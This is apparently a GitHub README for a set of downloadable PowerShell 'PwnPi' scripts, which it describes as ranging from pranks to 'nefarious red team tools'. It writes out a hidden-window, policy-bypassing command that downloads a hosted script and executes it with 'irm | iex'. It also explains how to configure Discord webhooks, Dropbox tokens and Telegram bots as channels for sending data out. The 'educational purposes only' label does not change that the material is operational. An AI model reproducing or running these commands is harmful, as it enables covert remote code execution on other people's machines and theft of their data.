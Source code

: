 # Downloadable-PwnPi-Scripts

**These scripts download scripts to run from this repo -**

https://github.com/beigeworm/assets/tree/main/Scripts

they all use this command > `powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

eg. `replace DISCORD_WEBHOOK to your webhook.` etc..

**Setup for Telegram, Discord, Dropbox**

**DROPBOX ACCESS TOKEN SETUP**
1. make an app at https://www.dropbox.com/developers/apps (make sure to grant full access to your new app)
2. generate an access token for your app.

**DISCORD WEBHOOK SETUP**
1. (Server Admin Required) On a discord server chat goto > "edit channel" > "integrations" > "webhooks" 
2. make a new webhook, name it and then click "copy webhook URL".

**TELEGRAM BOT SETUP**
1. visit https://t.me/botfather and make a bot.
2. add bot api to script.
3. search for bot in top left box in telegram and start a chat then type /start.
4. add chat ID for the chat bot (use this below to find the chat id) 

`$token='YOUR_TOKEN' #Replace this with your bot Token
$URL='https://api.telegram.org/bot{0}' -f $Token
$inMessage=Invoke-RestMethod -Method Get -Uri ($URL +'/getUpdates') -ErrorAction Stop
$inMessage.result.message | write-output
$inMessage.result.message | get-member`


#  If you like my work please leave a star. ⭐


